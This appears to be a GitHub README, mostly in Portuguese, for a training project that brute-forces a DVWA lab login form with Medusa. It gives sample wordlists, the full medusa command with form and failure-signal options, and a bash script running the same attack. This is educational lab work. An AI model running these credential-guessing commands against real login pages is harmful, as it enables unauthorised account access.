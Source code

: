 # medusa-http-bruteforce
Brute-force HTTP form attack using Medusa against DVWA — wordlists, scripts and screenshots.

# Simulating a Brute Force Password Attack with Medusa and Kali Linux

## Resumo
Projeto realizado como entrega do desafio. O objetivo é demonstrar um ataque de força-bruta a um formulário HTTP usando a ferramenta **Medusa** contra uma aplicação vulnerável (ex.: DVWA). O repositório contém as wordlists usadas, o comando/script executado e evidências (capturas de tela).

---

## Estrutura do repositório

medusa-http-bruteforce/
├── README.md
├── users.txt
├── pass.txt
├── comando-medusa.txt # comando usado (texto)
├── script.sh # script executável (opcional, Linux)
└── images/
├── kalih-medusa.png
└── kalih-medusa2.png


---

## Pré-requisitos
- Máquina com Kali Linux (ou outra distro Linux) ou Windows com medusa instalado.
- Medusa instalado (`apt install medusa` em Kali).
- Acesso à máquina alvo (DVWA) na mesma rede (ex.: `192.168.x.x`).

---

## Wordlists
- `users.txt` — lista de nomes de usuário (um por linha).
- `pass.txt` — lista de senhas (um por linha).

Exemplo:

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt


---

## Comando usado
Arquivo: `comando-medusa.txt`

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http
-m FORM:"username=^USER^&password=^PASS^&Login=Login"
-m DENY-SIGNAL:"Login failed" -t 6


**Observações importantes sobre o formato do comando**
- `^USER^` e `^PASS^` são **placeholders do Medusa** — o Medusa substitui esses tokens pelos valores da wordlist.
- O trecho com `&` separa campos do formulário (`username=...&password=...`). Em terminais diferentes, o `&` pode precisar ser protegido/escapado. Veja a seção *Escaping & placeholders* mais abaixo.

---

## Script executável (Linux)
Se desejar automatizar, use `script.sh`:

```bash
#!/bin/bash
# script.sh - Executa Medusa com wordlists em mesma pasta
TARGET="192.168.56.102"
USERS="users.txt"
PASS="pass.txt"

medusa -h "$TARGET" -U "$USERS" -P "$PASS" -M http \
-m FORM:"username=^USER^&password=^PASS^&Login=Login" \
-m DENY-SIGNAL:"Login failed" -t 6

